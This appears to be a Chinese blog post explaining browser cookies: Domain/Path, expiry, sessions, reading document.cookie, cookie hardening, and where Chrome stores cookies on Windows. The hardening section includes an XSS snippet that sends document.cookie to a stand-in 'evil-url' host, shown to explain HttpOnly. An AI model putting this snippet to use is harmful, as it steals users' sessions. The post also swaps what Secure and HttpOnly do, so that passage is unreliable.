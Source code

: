 ```yaml
---
js 基础 -- cookie
---
```


# cookie

处理业务需求遇到过如下几个问题，有必要复盘对 cookie 做个汇总：

- cookie 的存储受 domain 和 path 影响，那 port 端口是会影响？
- js 如何获取浏览器 cookie？
- cookie 的失效时间，以及 maxAge 和 Expires 的区别？
- ...

先介绍下 cookie

HTTP cookie 是当用户访问网页时，由服务端给客户端发送并存储的一个小数据片，由于 HTTP 是无状态的，所以通过 cookie 方式持久化一些有特殊业务作用的数据信息（比如，购物车记录、用户校验信息等）

## cookie 几个重要属性

![cookie 几个重要属性](https://github.com/eminoda/myBlog/blob/master/imgs/js_base/cookies.png?raw=true)


### Domain 和 Path

这两个属性都关系到存储 cookie 的存储域。

基于 cookie 的域名安全机制 **同源策略**，www.a.com 域下是不能够访问 www.b.com 下的 cookie 信息的。

但要注意如果 cookie 存放在顶级域名（top domain）下，www.a.com 是能够访问到 a.com 的信息。

同样的，path 路径如果设置了 /page/user ，那 /page/shop 就拿不到前者的 cookie 信息，最好就设置 / 根路径。

再说下 port

可能你在测试环境部署多套项目，即使一个 ip 不同端口， cookie 也会公用。

### Expires 和 Max-Age

Expires 和 Max-Age 的设置都可以使 cookie 失效过期，只是前者是一个 Date 的日期；后者为过期的秒数，低版本 IE （6，7，8）不支持此属性，绝大多数浏览器都支持此两者属性，并优先支持 Max-Age。

值得注意的，不同的时区 TimeZone，会导致记录到浏览器的过期时间不同，比如：GMT（格林尼治平时），UTC（协调世界时）

````js
new Date(); // Sun Jun 02 2019 23:23:50 GMT+0800 (中国标准时间)
new Date().toUTCString(); // Sun, 02 Jun 2019 15:24:01 GMT
new Date().toGMTString(); // Sun, 02 Jun 2019 15:33:46 GMT

// 另外还有 ISO 标准的时间输出
new Date().toISOString(); // 2019-06-02T15:37:54.607Z
````

另外，前两天遇到 Node 端重写 cookie，由于 java Expires 过期时间的输出“不正确”，导致 koa 的 cookie 解析时间失败，临时做了如下调整：

````js
ctx.cookies.set('name', 'tobi', {
    path: '/',
    domain: 'foo.com',
    expires: new Date((new Date().getTime() + maxAge * 1000)).toUTCString() // maxAge 后端 java 返回获得
});
````

### Secure and HttpOnly

这是从安全的角度的两个属性，如果设置了，前者 Secure 会让浏览器无法通过 javascript 来获取到 cookie 信息；后者 HttpOnly 会让 cookie 信息只在 Https 协议中传输。

## session

与 cookie 不同，前者存放在客户端，后者是服务器生成并记录于浏览器（内存）中的，也就是常说的 session cookie，在浏览器关闭后销毁。 session 是和服务端一同“配合”让数据持久化的技术方案，都是解决 http 无状态这类问题。

服务端向客户端浏览器丢个 sessionId （比如，Tomcat 里的 JESSIONID），每次 http 请求，都会把当前会话的 sessionId 传给服务端，服务端校验自己生成的 sessionId 和客户端的 sessionId 做比对来实现业务校验功能。

当然浏览器关闭后，本地 session 域保存的东西就没有了，但服务器生成的 sessionId 过期时间取决于服务器设置的保存时间。

## 怎么通过 js 获取 cookie

````js
document.cookie // 即可输出所有 cookie
````

利用正则遍历出所有 cookie

````js
let cookies = document.cookie;
let cRE = /(\w+)=(\w+);/g; // 参考
let result = cRE.exec(cookies);
while(result){
    console.log(`key:${result[1]},value:${result[2]}`);
    result = cRE.exec(cookies);;
}
````

也可以通过 document.cookie.split('; '); 这种简单的方法进行切割分组（npm cookie 就是这样做的）

## cookie 的保护

### 属性入手
对于设置 cookie 几个属性，当然不要忽略 Secure and HttpOnly 这两个属性。

比如设置 HttpOnly，就能在 xss 攻击上起到效果。

````js
var img = document.createElement('img');
img.src = 'http://evil-url?c=' + encodeURIComponent(document.cookie); // 获取不到 cookie
document.getElementsByTagName('body')[0].appendChild(img);
````

### 不要永久缓存
对每个 cookie 设置符合业务需求的过期时间，同时服务端要有个主动清除 cookie 的逻辑功能，以便万不得已下线所有用户，重新请求 cookie 信息。

### 加密
通常我们不会对 cookie 信息进行加密，但既然是本地数据就很容易被人模拟。

为了增加网站安全，可以的话做点 Token 机制的安全手段

### 不要放敏感的信息
该从数据库查的还是查下，安全性上不要吝啬性能消耗。cookie 尽量不要放敏感信息，密码等数据。

## 怎么查看 Chrome 的 Cookie？

当然大家都是专内人士，可以 F12 查看到 cookie 信息。但具体本地的 cookie 存放在哪里呢？

这里介绍个工具 sqlite

> SQLite是一个进程内的库，实现了自给自足的、无服务器的、零配置的、事务性的 SQL 数据库引擎。它是一个零配置的数据库，这意味着与其他数据库一样，您不需要在系统中配置。
就像其他数据库，SQLite 引擎不是一个独立的进程，可以按应用程序需求进行静态或动态连接。SQLite 直接访问其存储文件。

当然我不是转玩这东西的，不过你要知道 chrome 的 cookie 就是靠 sqlite 存放在你的电脑里。

拿 window10 举例，路径在：C:\Users\Administrator\AppData\Local\Google\Chrome\User Data\Default\Cookie (当然这个“数据库”文件你普通方式打开是乱码)

现在简单说下怎么把 cookie 的东西展示出来：

1. 下载并安装 sqlite3
   
    如果你是 window 电脑，就找这个栏目下载 [Precompiled Binaries for Windows](https://www.sqlite.org/download.html)，根据自己系统下载对应的 dll 并放到最后的 sqlite-tools-xxx 中。

2. 执行命令查看

    ![对应命令](https://github.com/eminoda/myBlog/blob/master/imgs/js_base/sqlite3.png?raw=true)

    根据上图能大概了解 cookie 的表格定义，和本地数据信息（不过这些信息都加密的）

## 参考
> 我只是知识点的“加工者”，更多内容请查阅原文链接 :thought_balloon: ，同时感谢原作者的付出：

- [HTTP_cookie wiki](https://en.wikipedia.org/wiki/HTTP_cookie)
- [SQLite 简介](https://www.runoob.com/sqlite/sqlite-intro.html)
- [SQLite 安装](https://www.runoob.com/sqlite/sqlite-installation.html)
- [Set-Cookie MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie)
- [Cookie 与 Cookie劫持](https://g2ex.github.io/2015/06/29/Cookie-and-Cookie-Injection/)